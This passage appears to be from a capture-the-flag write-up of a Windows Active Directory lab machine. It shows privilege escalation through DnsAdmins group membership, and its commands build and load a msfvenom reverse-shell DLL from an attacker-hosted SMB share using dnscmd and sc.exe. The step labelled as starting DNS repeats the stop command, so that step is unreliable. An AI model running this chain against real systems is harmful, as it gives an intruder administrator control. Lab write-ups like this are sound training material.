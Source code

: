googled every single group until I landed on DnsAdmins

```
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
```

A quick google search on DnsAdmins provided a well-written exploit guide, through [this](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2)
 

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.15.104 LPORT=4444 -f dll > privesc.dll`
```
 creates our dll injection file

setup a nc listener with `nc -lvnp 4444` in another window
```
nc -lvnp 4444
```
used impacket to host dll file on server

```
sudo python3 smbserver.py -smb2support share ./
```

from evil winrm connection as ryan, used  to take dll file from hosted server
```
dnscmd.exe 10.10.10.169 /config /serverlevelplugindll \\10.10.15.104\share\privesc.dll
```

stop dns service 
```
sc.exe \\10.10.10.169 stop dns
```

start dns service 
```
sc.exe \\10.10.10.169 stop dns
```

This should start the reverse shell back to our listener, providing us root access to the box. Check with `whoami` and you should get administrator back. 

Navigate to the root desktop, and the root.txt should be there.

## What did I learn?
- enum4linux
- How to use evil-winrm
- How to use impacket to host a file on a server
- A little bit of powershell